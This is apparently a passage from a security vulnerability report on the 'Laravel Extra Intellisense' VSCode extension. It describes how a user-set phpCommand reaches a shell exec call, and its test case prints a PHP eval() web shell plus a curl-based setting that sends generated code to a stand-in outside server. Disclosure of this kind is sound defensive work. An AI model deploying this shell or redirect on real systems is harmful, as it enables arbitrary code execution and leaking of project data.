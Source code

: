     3. **Usage across Providers:**  Many providers (`RouteProvider.ts`, `ViewProvider.ts`, `ConfigProvider.ts`, etc.) use `Helpers.runLaravel` to fetch data from the Laravel application, triggering the execution of PHP code using the potentially vulnerable `phpCommand`.

    **Visualization:**

    ```
    [VSCode Extension] -->  getConfiguration('phpCommand') --> [User-Configured phpCommand (potentially malicious)]
                         |
                         |  [PHP Code Generation (e.g., for route listing)]
                         |
                         V
    [Helpers.runPhp] -->  cp.exec(command)  --> [Operating System Shell] --> [Untrusted PHP Interpreter]
                                                                         |
                                                                         V
                                                        [Malicious Code Execution in Developer's Environment]
    ```

* Security Test Case:
    1. **Prerequisites:**
        - A Laravel project opened in VSCode.
        - "Laravel Extra Intellisense" extension installed and activated.
        - A publicly accessible web server where you can place a PHP file (for demonstration purposes, you could use a simple HTTP server on your local machine serving a directory).

    2. **Create a malicious PHP script:**
        - On your public web server, create a PHP file named `untrusted_php_interpreter.php` (or any name).
        - Add the following code to this file:
        ```php
        <?php
        if (isset($_GET['code'])) {
            echo "___VSCODE_LARAVEL_EXTRA_INSTELLISENSE_OUTPUT___";
            // Execute the code passed in the 'code' parameter
            eval($_GET['code']);
            echo "___VSCODE_LARAVEL_EXTRA_INSTELLISENSE_END_OUTPUT___";
        } else {
            echo "Error: 'code' parameter missing.";
        }
        ?>
        ```
        **Warning:** `eval()` is used here for demonstration purposes only. In a real attack, a more sophisticated approach would be used. **Do not use `eval()` in production code.**

    3. **Configure `phpCommand` in VSCode:**
        - Open VSCode settings (File > Preferences > Settings or Code > Settings > Settings).
        - Search for "LaravelExtraIntellisense.phpCommand".
        - Change the setting to the URL of your malicious PHP script, for example:
          `"phpCommand": "curl 'http://your-public-server/untrusted_php_interpreter.php?code={code}'"`
          Replace `http://your-public-server/untrusted_php_interpreter.php` with the actual URL.
